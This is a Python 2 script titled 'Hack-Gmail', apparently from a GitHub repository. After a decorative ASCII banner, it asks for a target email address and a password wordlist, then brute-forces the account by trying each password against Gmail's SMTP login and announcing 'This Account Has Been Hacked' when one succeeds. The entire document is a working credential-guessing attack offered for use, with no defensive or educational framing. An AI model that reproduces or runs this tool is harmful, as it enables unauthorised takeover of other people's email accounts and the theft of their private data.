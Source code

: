 # Hack-Gmail
#!/usr/bin/python 

 '''create by Ha3MrX''' 

  

import smtplib 

from os import system 

  


def main(): 

   print '=================================================' 

    print '             coded   by  Dark     ' 

    print '=================================================' 

    print '               ++++++++++++++++++++              ' 

    print '\n                                               ' 

    print '  _,.                                            ' 

    print '                                                 ' 

    print '                                                 ' 

    print '           DarkX'Dark                             ' 

    print '       _,.                   ' 

    print '     ,` -.)                  ' 

    print '    ( _/-\\-._               ' 

    print '   /,|`--._,-^|            , ' 

    print '   \_| |`-._/||          , | ' 

    print '     |  `-, / |         /  / ' 

    print '     |     || |        /  /  ' 

    print '      `r-._||/   __   /  /   ' 

    print '  __,-<_     )`-/  `./  /    ' 

    print '  \   `---    \   / /  /     ' 

    print '     |           |./  /      ' 

    print '     /           //  /       ' 

    print ' \_/  \         |/  /        ' 

    print '  |    |   _,^- /  /         ' 

    print '  |    , ``  (\/  /_         ' 

    print '   \,.->._    \X-=/^         ' 

    print '   (  /   `-._//^`           ' 

    print '    `Y-.____(__}             ' 

    print '     |     {__)              '  

    print '           ()   V.1.0        ' 

  

 main() 

 print '[1] start the attack' 

 print '[2] exit' 

 option = input('==>') 

 if option == 1: 

    file_path = raw_input('path of passwords file :') 

 else: 

    system('clear') 

    exit() 

 pass_file = open(file_path,'r') 

 pass_list = pass_file.readlines() 

 def login(): 

     i = 0 

     user_name = raw_input('target email :') 

     server = smtplib.SMTP_SSL('smtp.gmail.com', 465) 

     server.ehlo() 

     for password in pass_list: 

       i = i + 1 

       print str(i) + '/' + str(len(pass_list)) 

       try: 

          server.login(user_name, password) 

          system('clear') 

          main() 

          print '\n' 

          print '[+] This Account Has Been Hacked Password :' + password + '     ^_^' 

          break 

       except smtplib.SMTPAuthenticationError as e: 

          error = str(e) 

          if error[14] == '<': 

             system('clear') 

             main() 

             print '[+] this account has been hacked, password :' + password + '     ^_^' 

  

             break 

          else: 

             print '[!] password not found => ' + password 

 login()
